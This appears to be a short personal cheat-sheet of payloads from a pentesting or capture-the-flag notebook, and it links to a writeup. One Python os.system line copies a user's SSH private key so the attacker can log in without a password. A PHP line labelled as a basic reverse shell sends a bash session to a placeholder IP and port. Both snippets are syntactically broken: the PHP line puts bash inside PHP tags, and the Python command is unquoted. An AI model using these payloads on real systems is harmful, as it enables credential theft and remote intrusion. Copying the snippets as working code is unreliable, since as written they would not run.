 ## Python
- `import os; os.system({BASH COMMAND})` ex. from [[Share - Writeup]] `import os; os.system(cat ~/.ssh/id_rsa > /tmp)` this command was used in order to get the id_rsa of the user running the process in order to enter to the user via ssh with no password

## PHP
- `<?php bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1' ?>` - Basic PHP reverse shell